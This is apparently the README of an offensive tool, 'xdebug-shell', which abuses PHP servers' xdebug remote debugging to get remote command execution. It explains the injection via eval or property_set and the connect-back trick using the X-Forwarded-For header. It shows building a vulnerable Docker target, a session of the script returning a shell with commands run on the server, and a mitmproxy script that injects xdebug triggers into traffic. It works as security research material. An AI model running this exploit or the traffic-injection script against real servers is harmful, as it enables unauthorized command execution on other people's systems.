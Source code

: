 # xdebug-shell

Exploiting xdebug to get remote command execution is not new:

* https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/
* https://ricterz.me/posts/Xdebug:%20A%20Tiny%20Attack%20Surface

It is always cool to have a webshell.

## What is xdebug ?

Xdebug is a php extension that allows to debug php pages, remotely by using DGBp protocol. Code repository is located at [xdebug](https://github.com/xdebug/xdebug).

Code execution is possible via injections that exist in `eval` or `property_set` xdebug commands.

## How to activate it ?

For a reverse shell to work, xdebug configuration needs to include:

```
xdebug.remote_enable=true
xdebug.remote_connect_back=true
```

In order to start xdebug, add `XDEBUG_SESSION_START` to query parameters. Remote server will try to connect back to user on port tcp/9000. The endpoint where to connect to can be altered using `X-Forwarded-For` header. For example, if using Docker for Mac to run the xdebug Docker image supplied, you may use `docker.for.mac.localhost` as value.

## How to start a Docker vulnerable image ?

Go into vulnerable-xdebug and type:

```
$ docker build -t vulnerable-xdebug .
$ docker run -ti --rm -p 8080:80 vulnerable-xdebug
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
```

[Dockerfile](vulnerable-xdebug/Dockerfile) is based on Centos 7.4.1708 image.

## Get a webshell

```
$ ./xdebug-shell.py --local-host=docker.for.mac.localhost http://127.0.0.1:8080/phpinfo.php
>> id
uid=48(apache) gid=48(apache) groups=48(apache)
>> pwd
/var/www/html
>> uname -a
Linux b8db2353f675 4.9.60-linuxkit-aufs #1 SMP Mon Nov 6 16:00:12 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
>> cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)
>> lsmod
Module                  Size  Used by
xfrm_user              32768  1
xfrm_algo              16384  1 xfrm_user
>> ^D
```

## How to scan for xdebug ?

You can use this mitmproxy script [activate-xdebug.py](activate-xdebug.py):

```
$ mitmdump -dd -s "./activate-xdebug.py docker.for.mac.localhost"
```

The script will add xdebug parameter, and add X-Forwarded-For header for the reverse connect to succeed.
